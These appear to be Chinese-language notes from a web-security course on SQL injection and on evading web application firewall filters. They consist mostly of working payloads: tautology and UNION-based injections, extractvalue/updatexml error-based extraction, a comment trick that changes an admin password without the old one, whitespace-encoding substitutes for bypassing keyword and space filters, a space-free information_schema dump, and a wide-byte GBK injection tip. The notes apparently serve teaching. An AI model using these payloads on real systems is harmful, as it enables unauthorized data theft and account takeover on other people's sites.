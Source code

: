 如果想预习：
https://ke.huayunsys.com/courses/show2/14
11-30

==============================================
防火墙
参数# -- 过滤

?id=1' or '1'='1

?id=1' union select 1,database(),'3


select * from table1 where id='1' limit 0,1

select * from table1 where id=' ' union select 1,database(),'3  ' limit 0,1

-------------

越权漏洞

$old_pass = $_POST['old_pass'];
$new_pass1 = $_POST['new_pass1'];
$new_pass2 = $_POST['new_pass2'];

if($new_pass1==$new_pass2){
    
    //执行修改密码
    update users set password='$new_pass1' where username='admin' and password='$old_pass';
}

update users set password='123' where username='  admin' #   ' and password='$old_pass';

update users set password='123' where username='  admin'

================

防火墙屏蔽or and

or = || = url编码

and = && = url编码

?id=2' || extractvalue(1,(concat(0x7e,database(),0x7e))) || '1'='1

================

屏蔽or and 空格 注释符

替代空格的东西
%09 水平tab键
%0a 新建一行
%0c 新建一页
%0d 回车键
%0b 垂直tab键
%a0 也是空格键

屏蔽-号
报错条件 0 20000000000

?id=2000000'%0aunion%0aselect%0a1,2,3%0a||%0a'1'='1
如果哪天%的空格都不能用，不用空格
无空格写法
?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)like(database())),0x7e),1))||'
宽字节注入
小知识:
对' \ 屏蔽，前面多加个\
数据库用的是gbk编码，会把2个字符当作一个汉字
